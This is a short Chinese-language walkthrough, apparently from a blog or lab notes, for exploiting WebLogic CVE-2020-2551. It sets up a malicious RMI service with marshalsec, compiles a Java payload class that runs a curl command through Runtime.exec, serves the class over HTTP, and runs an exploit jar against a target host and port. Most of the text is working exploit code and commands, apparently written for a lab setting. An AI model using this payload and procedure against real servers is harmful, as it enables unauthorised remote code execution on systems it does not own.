 下载jar包，然后使用marshalsec起一个恶意的RMI服务，本地编译一个exp.java

```java
package payload;

import java.io.IOException;

public class exp {

    public exp() {
        String cmd = "curl http://172.16.1.1/success";
        try {
            Runtime.getRuntime().exec(cmd).getInputStream();
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
}
```

**尽量使用和weblogic相同的jdk版本和依赖库(wlfullclient.jar)编译** 然后本地起一个web服务器

```python
python -m http.server --bind 0.0.0.0 80
```

命令行运行jar包

```shell
java -jar weblogic_CVE_2020_2551.jar 172.16.1.128 7001 rmi://172.16.1.1:1099/exp
```





![image-20221018151852109](C:\Users\gret\AppData\Roaming\Typora\typora-user-images\image-20221018151852109.png)

